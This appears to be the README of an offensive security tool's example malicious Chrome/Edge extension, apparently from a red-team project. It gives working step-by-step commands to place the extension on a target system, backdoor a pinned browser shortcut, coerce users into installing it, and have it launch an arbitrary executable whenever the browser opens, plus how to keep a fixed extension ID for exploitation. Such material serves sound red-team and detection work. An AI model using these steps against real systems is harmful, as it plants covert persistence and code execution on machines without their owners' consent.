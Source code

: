 # Vulnerable Chrome/Edge Extension Sourcecode

This is the source code of an example vulnerable chrome/edge extension. 

This is fully working and the extension ID for this example is `anffbmbabbpmcaflbelkkhgdcfgppknb`.

This extension ID will be constant across any machine this is loaded into.

It's functionality is that it will just start execution of the nativemessaging application as soon as the browser is opened.

# How to use this

1. To make use of it, upload the `chrome-edge` folder in this directory to your target system (in the following examples, this repo has been unzipped in `C:\\ProgramData\\`).

2. 
- A) Then, to manually load the extension into chrome, run `"C:\Program Files\Google\Chrome\Application\chrome.exe" --load-extension=C:\\ProgramData\\Downloads\\the-extendables-main\\the-extendables-main\\extension-src\\chrome-edge\\`.

- B) To manually load the extension into edge, run `"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --load-extension=C:\\ProgramData\\Downloads\\the-extendables-main\\the-extendables-main\\extension-src\\chrome-edge\\`.

- C) Alternatively, you could run the following command through `TheExtendables.exe` to backdoor a browser shortcut - `TheExtendables.exe /lnkBackdoor /lnkPath "%APPDATA%\\Microsoft\\Internet Explorer\\Quick Launch\\User Pinned\\TaskBar\\Google Chrome.lnk" /extensionPath C:\\ProgramData\\Downloads\\the-extendables-main\\the-extendables-main\\extension-src\\chrome-edge\\`, then open it.

- D) The other alternative to backdooring the LNK with our malicious extension, would be to upload this folder to the chrome/edge extension store and coerce or force a user to download it.

3. Then to weaponise this, to run `calc.exe` as an example, you could run the following command in `TheExtendables.exe` tool - `TheExtendables.exe /persist /extensionID anffbmbabbpmcaflbelkkhgdcfgppknb /extensionName com.withsecure.theextendables /targetPath C:\\windows\\system32\\calc.exe`



# How to do this yourself


The example in the `chrome-edge` folder has been done for you and works, however if you want to change anything in it, or do this yourself, you will have to follow the steps below as the integrity checking `key` value in the extension manifest will become invalid:

1. Run the following command on the folder with your extension contents- `"C:\Program Files\Google\Chrome\Application\chrome.exe" --pack-extension="<EXTENSION FOLDER LOCATION>"`

This should produce a `.crx` and a `.pem` file, we only care about the `.crx` file.

2. Now open up the following URL in chrome - `chrome://extensions/`.

3. Then drag and drop the `.crx` file onto that screen and it should prompt you to add the extension.

![](../images/1-add_extension.png)

4. Click `Add extension`, and you should see the extension appear on the screen with an ID field displayed (highlighted in the image below).

![](../images/2-get_extensionID.png)

5. Now navigate to the following folder, with the ID which you just noted down - `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Extensions\<ID>`.

6. Within this folder, find the `manifest.json` and copy the contents over the original.

7. This will allow you to have a constant extension ID across any system which will be useful for exploitation and running other commands in the main `TheExtendables.exe` tool.

8. The extension ID will be the ID highlighted in the last image from the extension page in chrome.

Any time you change the contents of the extension directory you will need to repeat this process.


# Firefox

As of March 2020, Firefox disabled support for "sideloading" extensions. (https://blog.mozilla.org/addons/2020/03/10/support-for-extension-sideloading-has-ended/)

This means we can't use the backdooring method.

Instead you would have to upload the src code to the Firefox extension store, which signs it and scans it (https://extensionworkshop.com/documentation/publish/signing-and-distribution-overview/).

Then you would either coerce a user to download the file from the web-store or exploit an already existing extension.
